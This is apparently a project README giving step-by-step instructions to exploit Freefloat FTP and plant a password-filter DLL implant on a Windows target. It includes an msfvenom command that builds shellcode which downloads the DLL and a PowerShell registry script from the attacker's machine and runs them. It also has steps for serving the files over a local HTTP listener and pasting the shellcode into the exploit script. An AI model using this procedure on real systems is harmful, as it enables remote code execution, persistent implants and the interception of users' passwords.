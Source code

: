 Steps to recreate
1. Obtain Freefloat FTP
2. Download cmd.py - the exploit script that will complete the exploit
3. Download PasswordFilter.dll - the compiled implant to be installed via the registry
4. Download setup.ps1 - the powershell script that adds passwordfilter.dll to the registry
5. Run `python3 -m http.server 80` to run a local python listener to use when wget'ing files
6. Create new shell code for cmd.py 
Example: msfvenom -p windows/exec -a x86 CMD="ps.exe wget <kali vm ip>/PasswordFilter.dll -O C:\Windows\sysnative\PasswordFilter.dll; wget <kali vm ip>/setup.ps1 -O C:\temp\setup.ps1; ps.exe C:\temp\setup.ps1" -b "\x00\x0a\x0d" -f c
7. Paste the new shell code into cmd.py ensuring proper indenting and appending b before each " " on each line
8. Run cmd.py